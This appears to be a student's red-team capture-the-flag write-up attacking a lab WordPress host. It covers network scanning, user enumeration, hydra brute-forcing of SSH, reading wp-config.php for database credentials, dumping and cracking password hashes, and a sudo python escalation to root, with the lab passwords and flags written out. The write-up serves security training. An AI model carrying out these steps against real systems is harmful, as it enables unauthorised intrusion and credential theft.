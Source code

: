 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

   - $nmap -sP 192.168.1.1-255: This namp scan scans the full 192.168.1.1 network for any live hosts available. It revealed to hosts up: 192.168.1.110 and 192.168.1.115.

    - https://github.com/D7Carivs/Red-Blue-Network/blob/8d270379a8e0adfe76fd3abdc87911b389e9f9b5/Offensivereport/screenshots/Kali%20nMap%20scan%20of%20network.PNG
  
   - $nmap -sV 192.168.110: This scan was then ran to reveal any open ports and running services. Port 80 and 22 were left open and vulnerable. These ports were exploited in the attack. 
    
     - https://github.com/D7Carivs/Red-Blue-Network/blob/512c4f050f9bb360678b287645b18518528c6a6e/Offensivereport/screenshots/nmap%20192.168.1.110%20ports%20open.PNG

     - https://github.com/D7Carivs/Red-Blue-Network/blob/512c4f050f9bb360678b287645b18518528c6a6e/Offensivereport/screenshots/nmap%20scan%20report%20for%20192.168.1.110.PNG


   - $wpscan --url http://192.168.1.110/wordpress -eu: This scan was then used to find users and vulnerabilities on the host. Users Steven and Michael were found with Brute force attack vulnerability. These two usernames could be used to access root on the host system. 

     -  https://github.com/D7Carivs/Red-Blue-Network/blob/622ca8e810773ae1f79aeb06bf73be2f99b5bc4b/Offensivereport/screenshots/wpscan%20usernames.PNG

   - Port 22 was then used to ssh into 192.168.1.110 as Michael after using hydra to crack his password. He used his name (michael) as his password. 

     - https://github.com/D7Carivs/Red-Blue-Network/blob/d08f9c86548a37b0983556be6dd0689e8111a3a1/Offensivereport/screenshots/hydra%20michael%20password.PNG

     - https://github.com/D7Carivs/Red-Blue-Network/blob/c2e216333f3123128eaa7c49d06bbebdd8bfda6b/Offensivereport/screenshots/ssh%20michael@192.168.1.110%20password%20michael.PNG

- **The following vulnerabilities were found during the exploitation:**

  - Network Mapping and User Enumeration(WordPress site)
  - Unsalted User Password Hash(WordPress database)
  - Weak User Password
  - MySQL Database Access
  - MySQL Data Exfiltration
  - Misconfiguration of User Privileges or Privelege Escalation
   
- **Description in order of above vulnerabilities:**
  - Nmap was used to discover open port accessibility
  - Wpscan was used to gain username information
  - User password was weak and hydra was able to crack it easily
  - A file was discovered containing login information for MySQL database
  - Password hashes of the users were discovered when viewing MySQL database
  - It was also discovered Steven had sudo privileges for python
- **The following impacts occur due to these vulnerabilities in same order as previous**
  - Open ports are discoverable and attacks can be tailored accordingly
  - Username information can be used to access the web server
  - Weak password will allow and ssh access attack into the web server
  - The login information can be used to gain access to MySQL database
  - The password hashes were able to be saved to a file and cracked using John the Ripper
  - Steven's sudo privileges in python were able to be accessed and escalated to root.       

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - ssh michael@192.168.1.110
      - password:michael
      - cd /var/www/
      - grep -RE flag html
       
      - https://github.com/D7Carivs/Red-Blue-Network/blob/269f2afc3d16535eaf4fd059822e3c9e63931638/Offensivereport/screenshots/Flag1%20%20stability%20flags.PNG
       
    - `flag2.txt`:flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - while still in /var/www: ls
      - cat flag2.txt
       
      - https://github.com/D7Carivs/Red-Blue-Network/blob/269f2afc3d16535eaf4fd059822e3c9e63931638/Offensivereport/screenshots/flag2.PNG
      - 
      - 'flag3.txt': flag3{afc01ab56b50591e7dccf93122770cd2}
      - michael@target1:~$ cat /var/www/html/wordpress/wp-config.php
        -This was used to view the credentials to perform a user password hash dump.
      - https://github.com/D7Carivs/Red-Blue-Network/blob/88701f52dab4a05d36f55e6fb563061e5e74c23e/Offensivereport/screenshots/wp-config%20database.PNG
      - mysql -u root-p command was used with the password information from previous command. password: r@v3nSecurity
      - mysql launched. the following commands were used:
      - show databases;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/42324a8bc3e02128c5b25eb097640413c89a541f/Offensivereport/screenshots/my%20sql.PNG
      - use wordpress;
      - show tables;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d9a5e97600bd7cf1fe6e7b89557595c75bedbc3b/Offensivereport/screenshots/mysql%20wordpress%20show%20tables.PNG
      - select * from users;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d0e8d4b4a43c4d52390870592ac152ceb9a75a88/Offensivereport/screenshots/wp_users.PNG
      - select * from wp_posts;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/42324a8bc3e02128c5b25eb097640413c89a541f/Offensivereport/screenshots/wp_posts%20flag%203.PNG
      - We then exited the target 1 machine and cracked the hashes. 
      - A wp_hashes.txt file was then created for Steven and Michael's hashes.
      - John was then used to crack the hashes. Michael's hash was not able to be cracked. However, Steven's hash was and the password revealed was pink84.
      - The following commands were used to crack the hash with john:
      - john wp_hashes.txt
      - john -show wp_hashes.txt
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d5e9bc5ff1a42a676bd6c654a71f9161e68aa990/Offensivereport/screenshots/john%20password%20cracker%20steven%20pink84.PNG
      - Root access was then able to be obtained with steven's password with the following commands:
      - ssh steven@192.168.1.110
      - pink84
      - sudo python -c 'import pty;pty.spawn("/bin/bash");'
      - cd /
      - id
      - cd /root
      - ls
      - cat flag4.txt
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d5e9bc5ff1a42a676bd6c654a71f9161e68aa990/Offensivereport/screenshots/flag%204%20steven%20root.PNG

 
      
